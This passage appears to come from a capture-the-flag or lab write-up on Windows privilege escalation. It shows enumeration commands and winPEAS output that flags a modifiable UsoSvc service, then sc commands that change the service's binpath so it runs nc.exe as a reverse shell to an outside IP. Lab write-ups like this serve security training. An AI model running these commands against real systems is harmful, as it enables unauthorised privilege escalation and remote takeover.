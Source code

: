 	```
	whoami /priv
	```

	![img](./img/19.png)

	```
	systeminfo
	```

- Result of the [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe), discover possible local privilege escalation vectors, shows the full access of a service named as **UsoSvC**

	```
	[+] Modifiable Services
    [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    UsoSvc: AllAccess, Start
    ```

- Because of the full access to **UsoSvc** service, we can modify the **binpath** of the service and pop us a reverse shell.

	```
	sc.exe stop UsoSvc
	sc config UsoSvc binpath= "C:\windows\temp\nc.exe -nv 10.10.14.6 1235 -e C:\WINDOWS\System32\cmd.exe"
	sc.exe qc usosvc
	```
